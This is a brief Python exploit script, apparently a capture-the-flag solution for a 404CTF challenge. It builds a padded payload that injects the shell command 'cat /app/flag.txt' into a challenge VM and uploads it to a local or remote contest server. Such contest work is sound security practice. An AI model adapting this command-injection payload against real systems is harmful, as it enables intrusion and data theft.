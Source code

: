 ```python
payload = payload.ljust(1024,'\x00')
# command to be executed
payload += 'cat /app/flag.txt\x00'

# write payload to vm_data.bin file
f = open('vm_data.bin', 'wb')
f.write(payload)
f.close()

# upload the payload to docker, or remote, or run it locally
if args.DOCKER:
    with open('vm_data.bin', 'rb') as f:
      files = {'file': f.read()}
      x = requests.post('http://127.0.0.1:5000/', files=files)
      print(x.content)
elif args.REMOTE:
    with open('vm_data.bin', 'rb') as f:
      files = {'file': f.read()}
      x = requests.post('https://changement-darchitecture.404ctf.fr/', files=files)
      print(x.content)
else:
    p = process(exe.path, 'vm_data.bin')
    p.interactive()
```

